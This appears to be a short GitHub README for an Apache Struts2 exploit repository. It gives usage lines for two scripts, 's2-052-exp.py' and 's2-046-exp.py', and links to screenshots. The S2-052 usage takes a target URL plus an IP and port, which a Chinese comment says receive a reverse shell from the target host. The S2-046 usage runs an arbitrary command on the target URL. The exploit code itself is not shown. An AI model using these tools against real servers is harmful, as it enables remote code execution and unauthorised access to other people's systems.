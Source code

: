 # Apache-Struts2

s2-052 Usage : python s2-052-exp.py http://127.0.0.1/orders/ ip port #反弹目标主机IP 端口

<img width="940" alt="WechatIMG8" src="https://user-images.githubusercontent.com/19663680/183552139-2f18e2c0-5e2e-4fde-addc-caebf95c036e.png">

<img width="627" alt="WechatIMG9" src="https://user-images.githubusercontent.com/19663680/183552207-f48de5e1-f7f1-4146-bf5c-e535fb17cf6b.png">


s2-046 Usage : python s2-046-exp.py url command

<img width="919" alt="WechatIMG10" src="https://user-images.githubusercontent.com/19663680/183556185-f0cae8ce-ab0d-4d51-892b-c08957c9166a.png">
